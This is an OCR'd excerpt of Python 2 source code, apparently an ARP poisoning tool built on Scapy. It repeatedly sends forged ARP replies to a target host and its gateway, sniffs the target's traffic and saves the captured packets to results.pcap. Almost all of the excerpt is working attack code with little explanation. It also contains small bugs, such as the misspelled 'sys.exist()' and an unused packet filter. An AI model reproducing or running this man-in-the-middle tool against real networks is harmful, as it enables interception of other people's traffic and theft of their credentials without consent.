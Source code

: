 ```python
    poison_target.pdst = target_ip
    poison_target.hwdst = target_mac
    poison_gateway = ARP()
    poison_gateway.op = 2
    poison_gateway.psrc = target_ip
    poison_gateway.pdst = gateway_ip
    poison_gateway.hwdst = gateway_mac

    print '[*] Beginning the ARP poison. [CTRL-C to stop]'
    while 1:
        try:
            send(poison_target)
            send(poison_gateway)
            time.sleep(2)

        except KeyboardInterrupt:
            restore_target(gateway_ip, gateway_mac, target_ip, target_mac)

    print '[*] ARP poison attack finished.'
    return

if __name__ == '__main__':
    conf.iface = INTERFACE
    conf.verb = 0
    print "[*] Setting up %s" % INTERFACE
    GATEWAY_MAC = get_mac(GATEWAY_IP)
    if GATEWAY_MAC is None:
        print "[-] Failed to get gateway MAC. Exiting."
        sys.exit(0)
    else:
        print "[*] Gateway %s is at %s" %(GATEWAY_IP, GATEWAY_MAC)

    TARGET_MAC = get_mac(TARGET_IP)
    if TARGET_MAC is None:
        print "[-] Failed to get target MAC. Exiting."
        sys.exit(0)
    else:
        print "[*] Target %s is at %s" % (TARGET_IP, TARGET_MAC)

    poison_thread = threading.Thread(target = poison_target, args=(GATEWAY_IP, GATEWAY_MAC, \
        TARGET_IP, TARGET_MAC))
    poison_thread.start()

    try:
        print '[*] Starting sniffer for %d packets' %PACKET_COUNT
        bpf_filter = 'IP host ' + TARGET_IP
        packets = sniff(count=PACKET_COUNT, iface=INTERFACE)
        wrpcap('results.pcap', packets)
        restore_target(GATEWAY_IP, GATEWAY_MAC, TARGET_IP, TARGET_MAC)

    except Scapy_Exception as msg:
        print msg, "Hi there!!"

    except KeyboardInterrupt:
        restore_target(GATEWAY_IP, GATEWAY_MAC, TARGET_IP, TARGET_MAC)
        sys.exist()
```
